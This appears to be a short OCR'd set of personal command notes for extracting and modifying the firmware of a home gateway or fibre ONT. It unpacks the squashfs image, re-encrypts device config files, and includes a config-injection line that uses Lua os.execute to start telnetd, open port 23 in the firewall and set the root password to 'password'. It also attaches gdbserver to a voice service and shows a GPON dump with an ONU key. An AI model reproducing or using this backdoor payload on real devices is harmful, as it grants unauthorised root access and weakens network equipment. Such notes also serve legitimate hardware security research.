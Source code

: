 ## Command

```bash
# binwalk find offset
binwalk htrbUbNvSe.img 

# extract only sqashfs files
dd if=htrbUbNvSe.img of=pineapple.squashfs bs=1 skip=4147372

# extract squash file-system
unsquashfs -f -d tmp_dir/ ./pineapple.squashfs

# encrypt the config
openssl aes-128-cbc -pass file:key.txt -in RSTOTJIPE039095_JCOW414.txt -out RSTOTJIPE039095_JCOW414.enc 

# new device config encryption
openssl aes-128-cbc -pass file:key_jcro4032.txt -in /home/hussain/Downloads/RSTOTEKC0007195_JCO4032.txt -out /home/hussain/Downloads/RSTOTEKC0007195_JCO4032.enc

config.userdb = {} os.execute("/usr/sbin/telnetd"); os.execute("/pfrm2.0/bin/iptables -I fwInBypass -p tcp --dport 23 -m ifgroup --ifgroup-in 0x1/0x1 -j ACCEPT"); os.execute("echo -e \"password\npassword\" | passwd root");


./target/usr/bin/gdbserver --multi :8081 --attach $(pidof hgw-voice-app)
sudo netstat -tulnp | grep :<port_number>
```

```bash
RIL> gponmgr get info
ONU Info:
 ONU ID:    81
 ONU State: O5
 SN:        SCOMa6133f0e
 PASSWD:
  ASCII:    00000001
  HEX:      30303030303030310000
 REGID:
  ASCII:    
  HEX:      000000000000000000000000000000000000000000000000000000000000000000000000
 Key Idx:   1
 Key:       6d4231e7bef99365fa8cabb23112be24
 O1 Timer:  10000 ms
 O2 Timer:  100 ms
 OMCC ID:   51
```

### Using MIPS emulator

```bash

# install qemu-static
sudo apt-get install qemu-user-static

# start root shell in qemu in chroot
sudo chroot <squashfs_root_dir> /usr/bin/qemu-mipsel-static /bin/sh -i

# start lua interpreter
LD_LIBRARY_PATH=/usr/lib:/usr/local/lib ./pfrm2.0/bin/lua

# use any program binary
LD_LIBRARY_PATH=/usr/lib:/usr/local/lib ./pfrm2.0/bin/usrKlite
```
